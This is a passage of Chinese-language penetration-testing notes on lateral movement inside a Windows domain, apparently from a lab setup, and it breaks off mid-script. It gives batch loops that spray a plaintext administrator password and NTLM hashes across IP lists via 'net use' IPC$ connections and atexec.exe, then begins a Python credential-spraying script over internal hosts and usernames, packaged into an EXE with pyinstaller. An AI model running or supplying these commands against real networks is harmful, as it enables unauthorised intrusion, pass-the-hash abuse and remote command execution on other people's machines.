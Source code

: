 FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测IP对应明文连接

FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami #批量检测IP对应明文回显版

FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.3.21 whoami #批量检测明文对应IP回显版

FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.3.21 whoami #批量检测HASH对应IP回显版



\#横向渗透明文HASH传递批量利用-升级版

前期除了收集明文密码HASH等，还收集了用户名，用户名配合密码字典能吃西瓜？

net use \\192.168.3.32\ipc$ admin!@#45 /user:god\dbadmin



\#pip install pyinstaller

\#pyinstaller -F fuck_neiwang_001.py 生成可执行EXE



```python
import os,time

ips={

​    '192.168.3.21',

​    '192.168.3.25',

​    '192.168.3.29',

​    '192.168.3.30',

​    '192.168.3.31',

​    '192.168.3.33'

}



users={

​    'Administrator',

​    'boss',

​    'dbadmin',

​    'fileadmin',

​    'mack',

​    'mary',

​    'vpnadm',

​    'webadmin'

}

passs={

​    'admin',

```